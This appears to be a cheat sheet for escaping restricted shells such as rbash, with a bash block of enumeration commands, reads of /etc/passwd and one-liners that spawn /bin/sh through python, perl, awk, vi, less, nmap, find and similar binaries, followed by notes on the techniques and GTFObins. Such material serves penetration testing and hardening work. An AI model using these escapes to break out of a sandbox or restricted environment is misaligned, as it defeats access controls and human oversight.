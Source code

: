 ```sh
Restricted Shell Escape Attempts

```bash
# 1. Check the restricted shell type (if possible)
# (Often, this is not directly visible)

# 2. Enumerate allowed commands (try common ones)
ls
pwd
whoami
id
echo $PATH
env
# Try other basic commands

# 3. Test command substitution
ls -l `pwd`
ls -l $(pwd)
echo `whoami`
echo $(whoami)

# 4. Test command chaining
ls; whoami
pwd && id
echo 1 || echo 2
cat /etc/passwd | grep root

# 5. Test environment variable manipulation (if possible)
echo $PATH
export PATH=/bin:/usr/bin:/sbin:/usr/sbin
echo $PATH
echo $SHELL
export SHELL=/bin/bash
$SHELL # Try to spawn a new shell

# 6. Test shell function creation (if possible)
function test { /bin/bash; }
test

# 7. Try common escape binaries (if available)
sh
bash
python -c 'import os; os.system("/bin/sh")'
perl -e 'exec "/bin/sh";'
ruby -e 'exec "/bin/sh"'
awk 'BEGIN {system("/bin/sh")}'
vi
nano
tmux
screen
less /etc/passwd # Then !/bin/sh
nmap --interactive # Then !sh
find / -exec /bin/sh \; 

# 8. If vi is available
vi
# Then:
# :!/bin/sh
# or
# :set shell=/bin/bash
# :shell

# 9. GTFObins Check (Manual - Check allowed binaries against GTFObins)
# Example: If 'more' is allowed, check GTFObins for 'more'
# Example: If 'scp' is allowed, check GTFObins for 'scp'
# Example: If 'man' is allowed, check GTFObins for 'man'

# Example: If 'more' is allowed, and GTFObins shows an escape:
more /etc/passwd
:!/bin/sh

# Example: If 'man' is allowed, and GTFObins shows an escape:
man man
:!/bin/sh

# Example: If 'scp' is allowed, and GTFObins shows an escape:
scp user@host:/dev/null /dev/null -S /bin/sh

```


### **Understanding Restricted Shells**

- **Purpose:**
    - Limit user capabilities for security.
    - Prevent accidental or intentional system damage.
    - Control access to specific system features.
- **Common Types:**
    - `rbash` (Restricted Bourne shell)
    - `rksh` (Restricted Korn shell)
    - `rzsh` (Restricted Z shell)
- **Restrictions:**
    - Limited command execution.
    - Restricted directory access.
    - Disabled environment variable modification.
    - Prevented shell function creation.

**Escaping Techniques**

The document outlines several methods, which can be summarized and expanded upon:

- **Command Injection:**
    - Exploiting vulnerabilities where user input is directly used in command execution.
    - Example: `ls -l \`pwd`` (using backticks for command substitution).
    - This is very dependent on the specific implementation of the restricted shell.
- **Command Substitution:**
    - Using backticks (`) or `$(command)` to execute commands within other commands.
    - If the restricted shell allows any form of command substitution, it can often be abused.
- **Command Chaining:**
    - Using `;`, `&&`, `||`, or `|` to execute multiple commands in sequence.
    - If the shell allows any of these, it may be possible to chain an allowed command with an escape command.
- **Environment Variables:**
    - Manipulating variables like `PATH` or `SHELL` to execute unauthorized commands.
    - If the shell allows any modification of environment variables, this is a very common method of escape.
- **Shell Functions:**
    - Defining custom functions to bypass restrictions.
    - If function definitions are possible, this is a very powerful way to escape.

**Practical Considerations**

- **Specific Restrictions:** The effectiveness of these techniques depends entirely on the specific restrictions imposed by the restricted shell.
- **Enumeration:** Thoroughly enumerate the shell's limitations. What commands are allowed? What environment variables exist?
- **Binary Exploitation:** If standard escape methods fail, consider if any allowed binaries have known vulnerabilities.
- **GTFObins:** GTFObins is an excellent resource for finding ways to abuse common Linux binaries. Many of these techniques can be used to escape restricted shells.
- **Common Escape Commands:**
    - `sh`, `bash`, `python`, `perl`, `ruby`, `awk`, `vi`, `nano`, `tmux`, `screen` and many more. If any of these are available, they are very often used to escape.

**Example scenarios and commands**

- **If vi is available:** `:!/bin/sh`
- **If Python is available:** `python -c 'import os; os.system("/bin/sh")'`
- **If Perl is available:** `perl -e 'exec "/bin/sh";'`
- **If less is available:** `!/bin/sh`
- **If nmap is available:** `!sh` inside of an interactive nmap session.
- **If find is available:** `find / -exec /bin/sh \;`